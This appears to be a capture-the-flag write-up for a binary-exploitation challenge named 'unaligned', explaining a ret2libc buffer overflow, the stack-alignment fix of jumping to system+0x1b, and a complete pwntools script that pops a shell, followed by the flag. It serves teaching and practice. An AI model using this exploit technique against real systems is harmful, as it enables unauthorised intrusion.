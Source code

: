 
# Challenge description

When executed, the binary gives you a gift (an address) and then prompts you to enter a name, then whatever your input is you'll receive a segmentation fault, how strange!!

# Solution

After debugging the binary, we see that the gift address is the address of the libc function system,
so the solution to the challenge might be a ret2libc.

We also notice that we can input 40 characters until we reach a return address.

After getting the base address of libc and getting the address of '/bin/sh', we construct our ROP chain using gadgets present in libc.

So our payload basically looks like this :
    
    Padding + address of POP_RDI + address of /bin/sh + address of SYSTEM

But when run, we still get a segmentation fault.

After checking, we see that the function `system('/bin/sh')` does get executed, but the segmentation fault arises from within it.

After disassembling the system, we notice that it performs a function call to `do_system()` at offset 0x1b, let's try to jump directly to that call.

Let's try the following payload:

    Padding + address of POP_RDI + address of /bin/sh + address of SYSTEM + 0x1b

We run it, and sure enough, we get a shell :).

# Solve Script

```python
from pwn import *

elf = ELF('./unaligned')
context.binary = elf
p = process(elf.path)
#p = remote(host='unaligned.bsides.shellmates.club', port=443, ssl=True)
libc = ELF('./libc.so.6')

p.recvuntil('Gift: ')
system = int(p.recv(14), 16)

log.warn('system offset at : ' + str(hex(libc.symbols['system'])))

libc.address = system - libc.symbols['system']

log.warn('system at : ' + str(hex(system)))

bin_sh = p64(next(libc.search(b'/bin/sh\0')))

padding = b'B' * 40

system = p64(system + 0x1b)

pop_rdi = p64(libc.address + 0x2164f)

p.sendline(padding + pop_rdi + bin_sh + system)

p.interactive()
```

# Flag

`shellmates{SOrRY_fOR_f0RciBLy_Untify1ng_0ne_g4DGet_CoN$}`

